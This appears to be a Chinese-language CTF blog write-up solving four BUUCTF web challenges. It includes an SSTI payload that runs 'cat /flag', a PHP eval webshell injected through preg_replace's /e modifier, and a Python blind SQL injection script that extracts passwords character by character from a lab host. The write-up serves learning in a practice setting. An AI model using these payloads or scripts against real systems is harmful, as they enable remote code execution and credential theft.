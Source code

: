 # buu摸鱼日记之十二

## [BJDCTF2020]The mystery of ip

这题有点东西

居然是ssti真没想到

题目里面出现了ip,那自然想到client-ip/XXF

然后XXF可控，那么注入点就是这里

然后是smart(不是flask，这个可以用payload{{7*'7' 出49来判断

利用{{system('cat /flag') 拿到flag

## [BJDCTF2020]ZJCTF，不过如此

这个前半截和ZJCTF一模一样

后半端需要这个getshell

https://xz.aliyun.com/t/2557

这个洞理解起来好吃力，大概就是修改参数来达到串改php内容的作法

写个马进去/?\S*=${eval($_POST[field])}

```php
preg_replace('/(\S*)/ei', 'strtolower("\\1")', {${eval($_POST[field])});
                                              
```

原来的语句就会被魔改成这个DIO样子

就是会把${eval()}先执行掉，然后进行匹配（是个空值）

> ```php
> var_dump(phpinfo()); // 结果：布尔 true
> var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
> var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'
> 
> var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
> var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
> 这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
> ```

大致就是这样

## [CISCN 2019 初赛]Love Math

这个题很有趣，可以看出来是RCE，但是不知道怎么做

主要还是利用base_convert转换，可以转出字符串出来（36进制,abcdefg全齐了）

网上看到了很多很有趣的解法，[给了三个解法](http://cnblogs.com/20175211lyz/p/11588219.html),从文件头插入的姿势我是第一次见，真的学到了  

## [BJDCTF 2nd]简单注入

还是要看hint（我太菜了）

扫出来hint.txt

```php
select * from users where username='$_POST["username"]' and password='$_POST["password"]';
```

要用\转义（没看hint真没想到）

魔改以后的就是

```php
select * from users where username='admin\' and password='or length(database())>0#';
```

就有逻辑不一样，回显不同的效果

那么盲注老操作了

```python
import requests

url="http://63f2cb60-65f0-43f7-8c7b-d1123631ab7c.node3.buuoj.cn"

ch = 0
flag = ""

for i in range(1,50):
    high = 128
    low = 32
    mid = (high + low) // 2
    while(high>low):
        payload = {"username":"admin\\","password":"or/**/if(ascii(substr(password,%d,1))<%d,1,0)#"%(i,mid)}
        r = requests.post(url=url,data=payload).text
        if "stronger" in r:
            high = mid 
        else:
            low = mid + 1

        mid = (high + low) // 2

    # print(r)
    flag += chr(int(mid-1))
    print(flag)

```

```php
select * from users where username='admin\' and password='or/**/if(ascii(substr(password,%d,1))<%d,1,0)#';
```

憨批的我换了半天的select*什么的，后来发现好像根本没必要